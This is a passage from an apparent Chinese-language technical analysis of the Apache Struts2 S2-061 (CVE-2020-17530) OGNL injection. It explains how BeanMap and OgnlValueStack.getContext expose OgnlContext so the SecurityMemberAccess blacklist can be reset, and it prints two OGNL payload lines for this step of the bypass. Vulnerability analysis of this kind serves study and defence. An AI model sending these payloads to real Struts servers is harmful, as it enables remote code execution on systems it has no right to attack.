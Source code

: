 使用3和4同样的原理，利用 `BeanMap`使用`com.opensymphony.xwork2.ognl.OgnlValueStack` 中的 `getContext` 方法间接获取到 `OgnlContext`,并且重新设置到一个新的BeanMap中。

[![img](.resource/%EF%BC%88CVE-2020-17530%EF%BC%89S2-061/media/t010834ecdfe2788525.png)](https://p4.ssl.qhimg.com/t010834ecdfe2788525.png)

这里把两个步骤的Ognl代码同时贴出来

```
   # 注意，自行调试的话，需要分两次执行
   %{#application.map2=#application.get('org.apache.tomcat.InstanceManager').newInstance('org.apache.commons.collections.BeanMap')}

   %{#application.map2.setBean(#application.get('map').get('context'))}
```

使用上面的原理，使用第二步得到的`OgnlContext`获取到内部的`com.opensymphony.xwork2.ognl.SecurityMemberAccess`对象，在设置到新的BeanMap中，用于重置黑名单
